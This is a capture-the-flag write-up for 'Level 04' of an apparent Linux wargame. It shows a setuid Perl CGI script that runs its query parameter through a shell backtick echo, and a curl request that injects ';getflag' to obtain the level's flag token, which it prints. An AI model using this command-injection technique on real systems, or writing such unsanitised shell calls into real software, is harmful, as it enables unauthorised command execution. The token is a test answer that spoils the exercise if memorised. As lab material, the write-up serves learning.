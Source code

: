 # Level 04

As `level04` if we run `ls` we see that a `level04.pl` script is present in the home directory.

```pl
  $> cat level04.pl

  #!/usr/bin/perl
  # localhost:4747
  use CGI qw{param};
  print "Content-type: text/html\n\n";
  sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
  }
  x(param("x"));
```

> This script is running on `<VM-IP>`<sup>1</sup>`:4747` and prints the value of query parameter `x`.

If we look for more details about this script with `ls -l level04.pl`...

```shell
  $> ls -l level04.pl
  total 4
  -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Like the previous level, this script is executed as `flag04` so it has access to `getflag`, all we need to do is escaping `echo` and call it.

```shell
  $> curl localhost:4747?x=%3Bgetflag
  Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

> The sequence `%3B` is equivalent to `;` to encode it safely in URL query.

So, `ne2searoevaevoem4ov4ar8ap` is the flag for this level.
